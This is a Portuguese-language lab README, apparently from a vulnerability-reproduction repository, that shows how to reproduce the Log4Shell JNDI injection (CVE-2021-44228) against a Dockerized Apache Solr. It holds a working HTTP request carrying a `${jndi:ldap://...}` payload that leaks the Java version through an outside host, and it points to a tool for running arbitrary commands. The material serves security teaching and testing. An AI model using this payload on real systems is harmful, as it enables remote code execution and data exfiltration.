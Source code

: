 # Apache Log4j2 lookup feature JNDI injection (CVE-2021-44228)

O Apache Log4j 2 é uma atualização do Log4j que oferece melhorias significativas em relação ao seu predecessor, Log4j 1.xe fornece muitas das melhorias disponíveis no Logback enquanto corrige alguns problemas inerentes à arquitetura do Logback.

Em dezembro de 2021, uma exploração de 0 dia no Apache Log4j2 foi descoberta. O suporte JNDI do Log4j não restringiu quais nomes podem ser resolvidos. Alguns protocolos como `rmi:` e `ldap:` não são seguros ou podem permitir a execução remota de código.

Referências:

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649

## Ambiente de vulnerabilidade

O Apache Log4j2 não é um determinado serviço da web, é apenas uma biblioteca de terceiros, portanto, podemos usar um aplicativo que depende do Log4j2 para demonstrar como explorar essa vulnerabilidade.

Execute o seguinte comando para iniciar um Apache Solr 8.11.0, que usa o Log4j 2.14.1:

```
docker-compose up -d
```

Após iniciar o servidor, navegue em `http://your-ip:8983` para ver o portal de administração do Apache Solr.

## Exploit

Simplesmente, coloque a carga útil `${jndi:dns://${sys:java.version}.example.com}` como a ação do administrador que pode acionar a consulta JNDI.

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close


```

A consulta será mostrada no log DNS:
![](1.png)

Explore a injeção de JNDI com [esta ferramenta](https://github.com/su18/JNDI) para executar comandos arbitrários, `touch /tmp/success` é executado com sucesso:

![](2.png)
